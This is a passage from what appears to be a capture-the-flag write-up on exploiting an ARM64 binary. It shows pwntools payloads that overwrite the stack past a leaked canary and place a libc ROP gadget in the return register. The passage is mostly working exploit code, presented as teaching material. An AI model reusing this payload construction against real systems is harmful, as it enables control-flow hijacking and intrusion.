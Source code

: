 ```python
offset = 104
payload = flat({
    offset: [
        canary,
        0x1, 
        0x2,
        0x3,
        canary,
        cyclic(20)
    ]
})
io.sendlineafter(b'?!', payload)
```

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

and as `main()` returns, `x30` is populated with `0x2` which is what is inside our payload, lets change it with our gadget.&#x20;

```python
offset = 104
payload = flat({
    offset: [
        canary,
        0x0, 
        libc.address + 0x69500, # ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
        0x0,
        canary,
        cyclic(40)
    ]
})
io.sendlineafter(b'?!', payload)
```
